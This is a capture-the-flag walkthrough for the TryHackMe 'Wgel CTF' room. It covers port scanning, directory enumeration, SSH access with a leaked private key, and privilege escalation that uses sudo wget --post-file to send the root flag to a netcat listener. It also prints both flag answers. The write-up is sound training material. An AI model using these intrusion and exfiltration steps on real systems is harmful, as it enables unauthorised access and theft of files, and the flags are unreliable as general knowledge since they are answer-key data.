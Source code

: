 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

> Can you exfiltrate the root flag?

## Scanning

Scan ports using nmap

```bash
nmap -A -T4 10.10.200.215
```

![image](https://user-images.githubusercontent.com/90561566/181027998-0357866b-5df3-48c6-b163-f1d431bc4704.png)

We found 2 open ports 22 (ssh) and 80 (http)

## HTTP

We access the web service by http on port 80

![image](https://user-images.githubusercontent.com/90561566/181027874-748cd312-aa24-459a-a4ac-7b51ef44c820.png)

View source and we can see a announcement on line 278

![image](https://user-images.githubusercontent.com/90561566/181028450-ff1a8df0-6115-4ec3-966c-b453551713ab.png)

"jessie" is name of 1 user on the server

## Enumeration

We use gobuster to enummerate directory on web server

```bash
gobuster dir -u http://10.10.200.215/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/181032124-78c1f9f4-0bce-4f63-8231-4a7cad25489e.png)

We access to /sitemap/ directory, we find a corporate web

![image](https://user-images.githubusercontent.com/90561566/181033371-2cff1ae6-318d-42f7-9694-90e3d3555d0e.png)

We try gobuster against this page

```bash
gobuster dir -u http://10.10.200.215/sitemap/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/181034287-2bee7a43-0d83-4d54-9882-df62de22ed14.png)

we found  ".ssh" directory with id_rsa file

![image](https://user-images.githubusercontent.com/90561566/181034614-c1843616-7ac9-44c8-83c6-1deff81801a6.png)

![image](https://user-images.githubusercontent.com/90561566/181034966-d8deb25d-3994-45d2-9126-4b9cefcc5a28.png)

## Exploitation

We can ssh with "jessie" user using id_rsa file

```
wget http://10.10.200.215/sitemap/.ssh/id_rsa
chmod 600 id_rsa
ssh jessie@10.10.200.215 -i id_rsa
```

![image](https://user-images.githubusercontent.com/90561566/181036890-4b5a6609-63bd-4434-a632-566ef3d5c00d.png)

```
find . -name *flag*
```

![image](https://user-images.githubusercontent.com/90561566/181037505-9a8e67b9-a5c0-4ee1-abe4-78ccd5500e4a.png)

| Flag | User flag |
| --- | --- |
| Answer | 057c67131c3d5e42dd5cd3075b198ff6 |

## Privilege Escalation

```
sudo -l -l
```

![image](https://user-images.githubusercontent.com/90561566/181039891-2844e58b-83ea-442c-857a-02f254da3928.png)

Only user/bin/wget allowed as suoder

We we put a netcat listening and use the flag "wget --post-file" to get root flag

```
nc -lvnp 4444
# another terminal
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.10.149.210:4444
```

And just like that, I got the root_flag.txt

![image](https://user-images.githubusercontent.com/90561566/181043212-652b3629-6fb9-4c64-9abb-506afbae4809.png)

| Flag | Root flag |
| --- | --- |
| Answer | b1b968b37519ad1daa6408188649263d |
